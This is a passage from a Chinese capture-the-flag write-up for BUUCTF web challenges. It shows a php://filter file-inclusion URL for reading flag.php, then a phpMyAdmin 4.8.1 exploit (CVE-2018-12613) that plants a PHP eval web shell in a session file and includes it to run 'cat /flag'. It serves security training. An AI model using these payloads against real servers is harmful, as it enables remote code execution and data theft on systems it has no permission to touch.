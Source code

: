 好像不用加关键词也能包含成功...

存在 /flag.php 直接包含

```
http://0a37d3e1-1235-4537-a0e0-a2a8318129e0.node4.buuoj.cn:81/index.php?category=php://filter/meowers/convert.base64-encode/resource=flag
```

或者利用目录穿越 `resource=meowers/../flag`

## [GWCTF 2019]我有一个数据库

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208252035124.png)

robots.txt

```
User-agent: *
Disallow: phpinfo.php
```

phpinfo 没看出来什么, 倒是看一半的时候想着会不会有 phpmyadmin

访问 /phpmyadmin

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208252036677.png)

test 用户, 读写文件都不行, 不过发现 phpmyadmin 的版本才只有 4.8.1

网上搜了一下相关的漏洞

[https://www.cnblogs.com/liliyuanshangcao/p/13815242.html](https://www.cnblogs.com/liliyuanshangcao/p/13815242.html)

我用的是 CVE-2018-12613

首先将 sql 查询写入 session

```
select '<?php eval($_REQUEST[1]);?>';
```

然后包含文件, session id 就是 cookie 中 phpMyAdmin 的值

```
http://9125f90e-533c-4fa5-9158-a49652793cd7.node4.buuoj.cn:81/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_83jpjerdqkvmrn2t4nhv3r1j5n&1=system('cat /flag');
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208252040999.png)

好像不支持 post 提交, 只能用 get

## [BJDCTF2020]Mark loves cat

.git 泄露
